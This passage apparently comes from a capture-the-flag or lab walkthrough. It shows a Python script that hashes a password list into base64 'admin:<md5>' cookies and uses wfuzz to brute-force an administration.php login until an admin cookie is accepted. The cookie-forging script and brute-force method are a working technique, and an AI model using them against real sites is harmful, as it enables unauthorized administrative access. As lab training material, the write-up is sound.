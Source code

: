 Let's get to work with all this information. We need a script that converts all passwords in the `.passwords_list.txt` file into a list of accepted cookies, which can then be fired with `wfuzz` at the `administration.php` page.

I've named the script `md5_base64_cookie_gen.py` and it looks like this:


```python
import hashlib
import base64

# Open the input file and read its lines
with open('input_passwords.txt', 'r', encoding='utf-8') as input_file:
    input_lines = input_file.readlines()

# Open the output file to write the modified hashes
with open('output_hashes.txt', 'w', encoding='utf-8') as output_file:
    # Loop through the lines in the input file and process each line
    for line in input_lines:
        # Remove any non-alphanumeric characters from the line
        cleaned_line = ''.join(filter(str.isalnum, line))
        # Calculate the MD5 hash of the cleaned line
        hashed_line = hashlib.md5(cleaned_line.encode('utf-8')).hexdigest()
        # Prepend "admin:" to the hash
        modified_hash = 'admin:' + hashed_line
        # Encode the modified hash to Base64
        encoded_hash = base64.b64encode(modified_hash.encode('utf-8'))
        # Write the encoded hash to the output file
        output_file.write(encoded_hash.decode('utf-8') + '\n')
```

**Using Wfuzz for Cookie Brute Forcing**

As discussed above, I'll use `wfuzz` for this task. The following flags will be used:

- `-X POST`: Sending a POST request
- `-w`: Wordlist containing cookies
- `-b`: Location where the wordlist should be applied

![afbeelding](https://github.com/PingBackHome/PingBackHome.github.io/assets/115549820/e310bf82-b00b-4243-8e98-5286698869ee)

![afbeelding](https://github.com/PingBackHome/PingBackHome.github.io/assets/115549820/73937d5d-0d21-4f4f-84d9-a50329c17cfc)

**Successful Cookie Found**

We have a hit! The cookie accepted above is the admin cookie.

Let's apply this immediately.


![afbeelding](https://github.com/PingBackHome/PingBackHome.github.io/assets/115549820/cd7fb0f1-4617-4cd8-9ad1-b94c04094c10)

![afbeelding](https://github.com/PingBackHome/PingBackHome.github.io/assets/115549820/3ac54346-171b-401e-9e5c-f5d790ab91d9)


**Accessing Service Control Panel**
